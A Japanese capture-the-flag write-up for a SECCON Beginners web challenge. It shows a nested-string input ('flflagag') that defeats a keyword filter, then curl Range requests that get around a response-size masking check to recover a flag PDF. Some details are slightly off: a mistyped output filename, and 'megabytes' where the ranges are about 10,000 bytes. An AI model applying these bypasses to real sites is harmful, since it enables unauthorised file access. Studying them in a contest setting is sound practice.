 # gallery

## 解法

handlers.go を確認すると flag が `replace_all` されていることに気付く

```go
fileExtension = strings.ReplaceAll(fileExtension, "flag", "")
```

replace_all されてもうまく flag が組立つようにクエリを作成

```
https://gallery.quals.beginners.seccon.jp/?file_extension=flflagag
```

すると `flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf` という pdf が出現する
しかし開くと`?`で埋め尽くされている。

配布されているプログラムを確認すると一定バイト以上を超えた場合 `?` で埋め尽くされたファイルが返されるプログラムになっている

```go
func (w *MyResponseWriter) Write(data []byte) (int, error) {
	filledVal := []byte("?")

	length := len(data)
	if length > w.lengthLimit {
		w.ResponseWriter.Write(bytes.Repeat(filledVal, length))
		return length, nil
	}

	w.ResponseWriter.Write(data[:length])
	return length, nil
}

func middleware() func(http.Handler) http.Handler {
	return func(h http.Handler) http.Handler {
		return http.HandlerFunc(func(rw http.ResponseWriter, r *http.Request) {
			h.ServeHTTP(&MyResponseWriter{
				ResponseWriter: rw,
				lengthLimit:    10240, // SUPER SECURE THRESHOLD
			}, r)
		})
	}
}
```

Range ヘッダーの存在を思い出す

**参考**
https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Range

10メガバイトずつ取り出してくっつける

```shell
curl -H "Range: bytes=0-10000" https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -o 1.pd
curl -H "Range: bytes=10001-20000" https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -o 2.pd
cat 1.pdf 2.pdf > 12.pdf
```

`12.pdf` を開くとフラグが表示された

## フラグ

```
ctf4b{r4nge_reque5t_1s_u5efu1!}
```

